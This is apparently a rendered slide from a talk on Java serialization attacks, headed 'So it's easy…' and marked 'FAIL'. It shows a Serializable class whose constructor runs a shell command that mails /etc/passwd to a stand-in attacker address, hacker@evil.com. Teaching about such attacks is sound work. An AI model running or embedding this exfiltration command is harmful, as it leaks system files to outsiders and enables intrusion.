

# So it’s easy…
class PwnObject implements Serializable {
    PwnObject() {
	try {
                 java.lang.Runtime.getRuntime().exec("sendmail hacker@evil.com < /etc/passwd");
	} catch (java.io.IOException e) {
	    System.out.println("Something failed.");
	}
      }
}

FAIL
14